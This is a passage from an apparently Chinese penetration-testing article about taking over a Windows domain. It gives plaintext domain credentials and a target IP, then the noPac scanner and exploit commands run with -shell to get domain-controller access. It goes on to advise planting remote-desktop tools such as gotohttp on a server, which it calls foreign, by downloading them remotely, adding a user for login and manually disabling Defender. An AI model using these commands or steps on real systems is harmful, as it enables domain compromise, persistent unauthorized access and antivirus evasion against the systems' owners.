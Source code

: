 只能打域  
  
****  
**先通过提权抓取明文密码**  
  
god.org/webadmin:admin!@#45（域名/获取到的域用户账号/域用户密码） 192.168.3.21为目标ip  
  
python.exe scanner.py -use-ldap "god.org/webadmin:admin!@#45" -dc-ip 192.168.3.21  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1UibicpicXGT3hZlbG0spxxgTibk2OT2vOIr0nwkKicDkwybL5yYq5xRy6mxiaCBEFNoEibv87sSotIxczFcRQ/640?wx_fmt=png&from=appmsg "")  
  
**再执行命令，成功获取权限**  
  
**python.exe noPac.py -use-ldap "god.org/webadmin:admin!@#45" -dc-ip 192.168.3.21 -shell**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1UibicpicXGT3hZlbG0spxxgTibk2gtrubjhxJAvT0RdRA0ncPl1udF0RZE5CSdCQ5iaCRCpJMc1Kvs3b3rg/640?wx_fmt=png&from=appmsg "")  
  
**6、补充**  
  
**远控工具可以使用rustdesk，gotohttp，通过远程连接到桌面，关闭杀软也可以的。**  
  
**以国外服务器演示，这台服务器存在df杀软**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1UibicQWvqdkHRkHc3wc85Pjfml9UqHPzB1oVLdDT78Yibd4Avib7MlB2eR0wAsaA5fZxeTtRK5bGsJ6ibjA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1UibicQWvqdkHRkHc3wc85Pjfmlp1TnEBUib8ib0Xc7P3Vcyic0CKMWndkBJt4WmzUMUADIdZrcVWUm82uuw/640?wx_fmt=png&from=appmsg "")  
  
**可通过命令远程下载gotohttp后运行**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1UibicQWvqdkHRkHc3wc85PjfmlUrG6b1uZmRzw5iaibEoZAZHCUoMYFxlEAp2RDobybZKNtFyxp80ibLOaQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1UibicQWvqdkHRkHc3wc85PjfmlP3TTNcPib9CoAJSKt5ftbGPsZvN5YHa1oaLshlxQtGn6vekV0dic83UQ/640?wx_fmt=png&from=appmsg "")  
  
运行后生成  
gotohttp.ini，查看  
文件信息，直接连接即可  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1UibicQWvqdkHRkHc3wc85PjfmlMpfBaicM7iciaMWZhuCv443ibYziaAv18tqib7bqwhc1lYsaNr9E3X9UfeBg/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1UibicQWvqdkHRkHc3wc85PjfmlVF7MgVjLwXflcibZmvn8rSzgRqVd3BO7lT6zBBYJHe0ppuxjfNkFouQ/640?wx_fmt=png&from=appmsg "")  
  
**通过命令新增用户，远程登录的时候使用**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1UibicQWvqdkHRkHc3wc85PjfmlRXm2gc3mfsYetl0yr5AV9zK6njaBgK7ia1D2Kia4C8QI4o9yYEyS82lw/640?wx_fmt=png&from=appmsg "")  
  
**成功登录后，这时候就可以手动把df关了**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1UibicQWvqdkHRkHc3wc85PjfmlxIv3ghayNlFkI0qf35ibRm4hracQYqnaEKdTibGkAlzZ4Ox7BXNPgLXA/640?wx_fmt=png&from=appmsg "")  
  
****  
